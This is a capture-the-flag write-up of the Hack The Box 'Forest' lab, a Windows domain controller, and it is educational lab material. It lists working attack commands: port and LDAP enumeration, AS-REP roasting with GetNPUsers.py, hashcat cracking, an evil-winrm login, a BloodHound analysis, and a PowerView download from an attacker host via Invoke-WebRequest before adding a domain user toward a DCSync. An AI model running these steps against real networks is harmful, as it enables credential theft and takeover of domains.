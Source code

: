 # Forest

**Date:** 2024-10-26

## Scope

To start, I stored the target IP in a file:

```bash
echo 10.10.10.161 > target
```

Additionally, I added it to the hosts file with the domain name `forest.htb`.

## Enumeration

### Port Scanning

I performed a full port scan using `nmap`:

```bash
nmap -p- $(cat target) -v -oN nmap/full_scan.txt
```

The following open ports were identified:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664-49703/tcp open  msrpc
```

I then ran an aggressive scan on the open ports:

```bash
nmap -p$(cat tcp_ports) $(cat target) -A -T4 -v -oN nmap/tcp_ports_scan.txt -oX nmap/tcp_ports_scan.xml
```

Key findings from the aggressive scan:

- **Operating System:** Windows Server 2016 Standard 14393
- **Domain Information:** 
    - Domain: `htb.local`
    - Computer name: `FOREST`
    - Forest name: `htb.local`
- **Additional Services:** Kerberos, LDAP, SMB, WinRM, DNS, HTTP

## LDAP Enumeration

Starting with LDAP, I found that no authentication was required to query basic information.

### Password Policy

Using the following command, I retrieved the password policy details:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -b "dc=htb,dc=local" "(objectClass=domain)"
```

Key attributes of the password policy:
- **Max Password Age:** -9223372036854775808
- **Min Password Age:** -864000000000
- **Min Password Length:** 7
- **Password History Length:** 24
- **Lockout Threshold:** 0
- **Lockout Duration:** -18000000000
- **Observation Window:** -18000000000

### User Enumeration

I enumerated user accounts via LDAP:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -b "dc=htb,dc=local" "objectclass=user" | grep sAMAccountName | sed 's/sAMAccountName: //g'
```

## SMB Enumeration

I used `enum4linux` for SMB enumeration to list user and group information:

```bash
enum4linux -A $(cat target)
```

Identified domain users include:
- HTB\Administrator
- HTB\DefaultAccount
- HTB\krbtgt
- HTB\sebastien
- HTB\lucinda
- HTB\svc-alfresco
- HTB\andy
- HTB\mark
- HTB\santi

These users were stored in a file for further analysis.

### Kerberos Pre-Authentication Check

Using the `GetNPUsers.py` Impacket script, I checked which users have "Do not require Kerberos pre-authentication" set:

```bash
GetNPUsers.py htb/ -usersfile users -no-pass -dc-ip 10.10.10.161 -format hashcat
```

I successfully obtained a TGT for `svc-alfresco` and cracked it with hashcat to retrieve the password:

```bash
hashcat -m 18200 svc-alfresco-ticket /usr/share/wordlists/rockyou.txt
```

---

## Exploitation

With the password for `svc-alfresco`, I accessed the system using `evil-winrm`:
```bash
evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "<password>"
```

I got the user flag.

---

### BloodHound Enumeration

To identify potential privilege escalation paths, I used BloodHound and Neo4j:

```bash
neo4j console
bloodhound-python -d htb.local -u "svc-alfresco" -p "<password>" -ns 10.10.10.161 -c all
bloodhound
```

After marking `svc-alfresco` as “owned” in BloodHound, I analyzed paths to domain administrator privileges. Notably, `svc-alfresco` was part of the *Account Operators* group, allowing user management capabilities.

### Privilege Escalation
Using PowerSploit's `PowerView.ps1` script, I created a new user and added it to the necessary group for further exploitation:
```powershell
# In Evil-WinRM session:
Invoke-WebRequest -Uri "http://<IP>:8081/PowerView.ps1" -OutFile PowerView.ps1
net user addme asdfghj /add /domain
```

Through the *Account Operators* group, I set up privileges to conduct a DCSync attack and retrieve domain hashes.

---


The Forest lab provided valuable hands-on experience with:
- **Active Directory Enumeration** using LDAP, SMB, and Kerberos protocols.
- **Privilege Escalation** within an Active Directory environment using BloodHound insights and group memberships.
